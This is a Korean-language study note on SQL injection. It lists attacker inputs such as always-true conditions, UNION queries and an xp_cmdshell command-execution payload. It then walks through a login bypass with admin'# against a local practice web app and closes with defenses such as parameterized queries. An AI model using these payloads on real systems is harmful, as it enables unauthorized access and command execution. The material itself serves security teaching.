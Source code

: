 
# SQL Injection

![injection0](https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png)

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

## 공격자 패턴

1. 항상 참이 되는 입력
ex) a' or 'a' = 'a
select * from users where name = 'a' or 'a' = 'a' -> 모든 데이터를 조회 -> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력

ex) a'
-> select * from users where name = 'a'' -> 구분 오류를 유발

시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력
ex) hong' union select * from ... --
select * from users where name = 'hong' 
union
select * from ... --

4. 시스템 명령어 실행하는 입력

입력 ex) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- 
select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '

해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

## SQL Injection을 이용한 인증과정 우회

@Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~===

HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#'






## 방어 기법

방어기법
- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여
